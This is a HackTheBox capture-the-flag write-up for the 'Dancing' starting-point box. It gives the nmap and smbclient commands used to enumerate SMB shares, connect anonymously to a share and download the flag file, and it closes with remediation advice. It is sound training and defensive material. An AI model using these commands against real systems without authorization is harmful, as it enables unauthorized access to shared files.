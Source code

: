 # HackTheBox — Dancing (Starting Point) — Writeup

**Author:** Janhavi Mohite  
**Machine:** Dancing (Starting Point)  
**Date:** 2025-09-20

---

## Objective

Retrieve the user flag from the target machine `<TARGET_IP>` using allowed enumeration techniques. This was a beginner-friendly starting point focused on SMB enumeration and anonymous access.

---

## Environment

* Attacking host: Kali/Parrot machine inside HTB VPN (example IP: `10.10.15.20`)  
* Target host: `<TARGET_IP>`  
* Tools used: `nmap`, `smbclient`, `smbmap` (optional), standard shell utilities (`cat`, `ls`)

---

## Summary of steps

1. Performed service enumeration with `nmap`.  
2. Enumerated SMB shares with `smbclient -L`.  
3. Connected anonymously to the `workshare` share.  
4. Navigated directories, downloaded `flag.txt` using `get`, and read the flag locally.

---

## Reconnaissance

### Nmap scan

I ran a targeted nmap scan to identify SMB-related services:

```bash
nmap -sV -p 139,445 <TARGET_IP>
nmap -sV -sC -p- <TARGET_IP>
```

# Key findings:

Port 445/tcp — microsoft-ds (SMB) detected.

# Enumerating SMB
List available shares (attempt anonymous access first):

```bash
smbclient -L //<TARGET_IP> -N
```
-L lists shares on the host.
-N attempts anonymous login (no password prompt).

From the output I found a share named workshare (may appear as workshares on some boxes). I connected to it anonymously:

```bash
smbclient //<TARGET_IP>/workshare -N
```
After connecting I observed two directories inside the share. One directory contained flag.txt.

Downloading the flag
At the smb: prompt:
```bash
text
smb: \> ls
smb: \> cd <directory-containing-flag>
smb: \> get flag.txt
smb: \> exit
```
The get command downloads files from the SMB share into your current working directory.

Reading the flag
On the attacking machine:

```bash
ls -la
cat flag.txt
```
The file printed the user flag which completes the objective for this machine.

Commands used (compact)
```bash
nmap -sV -p 139,445 <TARGET_IP>
smbclient -L //<TARGET_IP> -N
smbclient //<TARGET_IP>/workshare -N
# inside smbclient:
#    ls
#    cd <dir>
#    get flag.txt
#    exit
# locally:
ls -la
cat flag.txt
```

## Observations & Notes
SMB stands for Server Message Block and modern SMB typically runs over TCP 445.

smbclient -L //<IP> -N is useful to quickly discover which shares allow anonymous access.

Inside the SMB shell, get downloads a file and put uploads a file.

Only access systems you are authorized to test (HTB/CTF only).

Remediation advice (for real systems)
Disable anonymous/guest SMB access unless explicitly required.

Restrict share contents and permissions to necessary users only.

Monitor SMB logs for unusual access and keep services patched.

Prefer secure alternatives for remote file transfer (SFTP/FTPS) when possible.

References / Credits
HackTheBox — Starting Point: Dancing

Tools: nmap, smbclient,

## Conclusion

The Dancing box highlighted the risks of misconfigured SMB shares that allow anonymous access.  
By enumerating SMB services with `nmap`, discovering shares with `smbclient -L`, and connecting anonymously, I was able to navigate to the `workshare` share and retrieve the `flag.txt` file.  

This reinforces the importance of proper share permissions, disabling guest/anonymous access, and regularly auditing network services for insecure defaults.
